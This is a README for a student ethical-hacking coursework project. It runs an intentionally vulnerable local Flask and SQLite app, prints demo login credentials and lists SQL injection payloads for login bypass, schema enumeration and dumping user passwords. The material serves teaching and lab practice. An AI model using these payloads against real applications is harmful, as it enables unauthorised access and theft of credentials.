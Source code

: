 # F20AN-CW1  

### SQL Injection Project – Ethical Hacking Coursework  

This project demonstrates SQL injection vulnerabilities as part of an ethical hacking course.  

## Contributors  
- Aryan R  
- Patson D  

## Setup & Execution  

1. **Install Dependencies**  
   Ensure you have a Python environment set up, then install the required dependencies:  
   ```bash
   pip install -r requirements.txt 
   ```

2. **Set Up the Database**  
Navigate to the 'flask app' directory and run:
    ```bash
   python setupDatabase.py
   ```
   The following output should be generated during its first execution:
   ```bash
    Admin user and test user created.

    admin creds: 
            u:admin
            p:dubai2020!
    test user creds: 
            u:patson
            p:patson123

    Database setup complete.
   ```
   This initializes the SQL database.

3. **Run the Application**  
Start the Flask app: 
    ```bash
    python myApp.py
    ```
    Then, open your browser and go to:  
    http://127.0.0.1:5000/

4. **Example Exploits (for SQLite):**

   - **Bypass login with comment (login page)**
     ```
     admin'-- 
     ```

   - **Bypass login with OR (login page)**
     ```
     admin' OR '1' = '1
     ```

   - **Check if injection is possible (stock page)**
     ```
     ' UNION SELECT 1,2,3,4,5; --
     ```

   - **Get SQLite version (stock page)**
     ```
     ' UNION SELECT sqlite_version(),2,3,4,5; --
     ```

   - **Show tables (stock page)**
     ```
     ' UNION SELECT name, type, 3,4,5 FROM sqlite_master; --
     ```

   - **Show SQL query with table info (stock page)**
     ```
     ' UNION SELECT sql, 2,3,4,5 FROM sqlite_master WHERE type='table' AND name='users'; --
     ```

   - **Dump all users (stock page)**
     ```
     %' UNION SELECT username, password, 1, 2, 3 FROM users; --
     ```

   - **List all tables and SQL schema (stock page)**
     ```
     ' UNION SELECT type, name, tbl_name, rootpage, sql FROM sqlite_master; --
     ```

---
This project is intended for the f20an coursework.